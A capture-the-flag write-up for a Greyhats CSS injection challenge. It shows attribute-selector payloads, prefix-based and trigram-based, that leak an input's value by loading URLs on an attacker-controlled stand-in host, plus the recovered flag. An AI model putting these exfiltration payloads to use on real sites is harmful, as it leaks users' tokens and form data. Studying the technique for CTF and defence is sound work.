


solved by 

> I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag only consists of numbers and uppercase letters and the lowercase character `f` (the exception is the flag format of grey{.+})<br>
> Author: Junhua
> http://challs.nusgreyhats.org:33339

Or, if you were working on the challenge in the beginning:

> I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag <u>*only consists of numbers and uppercase letters*</u>

We are given a website to submit css:



Our css will then be loaded, and we have to somehow extract the flag in this `<input>`:



When we submit the css for "judging", what just means is that the admin bot will visit that page with the real flag in the `<input>`

Since we can only inject css, we can't xss, so how can we exfiltrate for the flag?

## CSS Injection

### The normal way

We can host our own website, and exfiltrate each character of the flag one at a time


#flag[value^="grey{A"] {
    background-image: url(http://oursite.com/A)
}
#flag[value^="grey{B"] {
    background-image: url(http://oursite.com/B)
}
/*SKIP_LINE:(...)*/
#flag[value^="grey{Y"] {
    background-image: url(http://oursite.com/Y)
}
#flag[value^="grey{Z"] {
    background-image: url(http://oursite.com/Z)
}


This uses a css attribute selector. So for example, if our flag starts with `grey{X`, this css will load:
```css
#flag[value^="grey{A"] {
    background-image: url(http://oursite.com/A)
}
```
and we receive a request with the url `http://oursite.com/X`. This way, we know that the flag starts with `X`

> Note that you also need to check for numbers (and `f`) as well. 

But what if you found this too slow and wanted to blood it?

### My way

There is another technique that is used in css exfiltration know as <u>trigrams</u>. Essentially, instead of checking whether an attribute *starts with* something, we check if the attribute *contains* a sequence of characters. (Three is generally optimal since if we only use 2 and there is a repeated character, it becomes hard to reconstruct the flag, and 4 is simply too big to upload most of the time):


[value*="000"]{--000:url(http://oursite.com/000);}
[value*="001"]{--001:url(http://oursite.com/001);}
[value*="002"]{--002:url(http://oursite.com/002);}
[value*="003"]{--003:url(http://oursite.com/003);}
[value*="004"]{--004:url(http://oursite.com/004);}
[value*="005"]{--005:url(http://oursite.com/005);}
[value*="006"]{--006:url(http://oursite.com/006);}
[value*="007"]{--007:url(http://oursite.com/007);}
[value*="008"]{--008:url(http://oursite.com/008);}
[value*="009"]{--009:url(http://oursite.com/009);}
[value*="00A"]{--00A:url(http://oursite.com/00A);}
/*SKIP_LINE:(...)*/
#flag[value] { background:var(--000,none),var(--001,none),/*etc...*/; }


This is similar to the previous example, but in order to save characters, I have opted to use css variables instead to compress the payload slightly (the url still makes up the bulk on the data)

With all that in place, let's receive our trigrams:


0UC,1ND,34R,4NF,4RC,C4N,5S3,RCH,NF1,S34,Y0U,X5S,CH1,ND1,D1T,UC4,F1N


uhhhhhhhhhhhhhhh, we can construct two substrings of the flag `X5S34RCH1` and `Y0UC4NF1ND1T`, but why is one thing missing????????????

Unfortunately someone else blooded this already.

After dying for several minutes, I decided to fall back on the normal strategy, but it still didn't work. There was nothing after `grey{X5S34RCH1`. Then I decided to mix in lowercase letters (cuz why not). And it turns out there was an `f` after `X5S34RCH1` like what the fuck why is there an `f` there ?????????


Anyways, I got the flag: `grey{X5S34RCH1fY0UC4NF1ND1T}` (3rd solve)

They later updated the description to include that `f` existed, and then a billion people solved it and it went down to 100 points in like three microseconds so it was all for nothing.


## Scripts